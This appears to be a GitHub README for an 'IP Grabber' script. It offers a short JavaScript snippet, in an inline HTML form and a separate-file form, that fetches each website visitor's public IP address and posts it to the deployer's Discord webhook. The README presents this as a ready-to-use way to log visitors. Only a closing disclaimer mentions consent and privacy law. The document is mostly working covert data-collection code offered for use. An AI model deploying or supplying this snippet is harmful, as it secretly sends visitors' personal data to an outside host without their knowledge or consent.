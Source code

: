 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

**Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

If you want to implement it in the html file directly use:**
```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>`
```
**or use a seperate JavaScript file:**

```js
fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
    fetch('YOUR_DISCORD_WEBHOOK', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ content: ip })
    });
  })
```

## Disclaimer

This script is intended for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.

